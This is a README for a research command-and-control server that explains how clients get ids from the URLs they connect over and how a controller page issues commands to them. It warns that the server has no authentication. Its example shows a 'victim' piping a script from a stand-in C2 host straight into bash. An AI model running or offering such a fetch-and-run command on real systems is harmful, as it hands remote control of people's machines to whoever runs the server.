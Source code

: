 # ResearchServers C2

A simple, single user, Command & Control server built on top of [ajxchapman/researchservers.](https://github.com/ajxchapman/researchservers)

**NOTE:** This does not implement *any* authentication. Anyone with knowledge of the URL a client connects over will be able to issue commands to the client.

Clients are given ids based on the connecting URL, for example a client connecting to https://c2.exmaple.com/client1/ will have an id of `client1`. In order to control this client you must connect to https://c2.example.com/client1/controller.html.

Ids are calculated from the URL Hostname and Path of the connecting client, e.g. :
* https://c2client2.example.com will have an id of `client2`
* https://www.example.com/c2client3/ will have an id of `client3`
* https://www.example.com/c2client4/test/ will have an id of `client4.test`
* https://c2org.example.com/it/ will have an id of `org.it`

The `/get_id` endpoint can tell you the id for a given URL:
```bash
user@victim:~$ curl https://c2org.example.com/c2id11211/testing/get_id
{"id": "org.id11211.testing"}
```

In order for requests to be routed to the c2 backend either the hostname or the first path directory must begin with the string `c2`.

## Example

`victim`
```bash
user@victim:~$ curl https://c2client1.example.com/runme.sh | bash
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                               Dload  Upload   Total   Spent    Left  Speed
100   458  100   458    0     0   1721      0 --:--:-- --:--:-- --:--:--  1721
```

`server`
https://c2.example.com/client1/controller.html
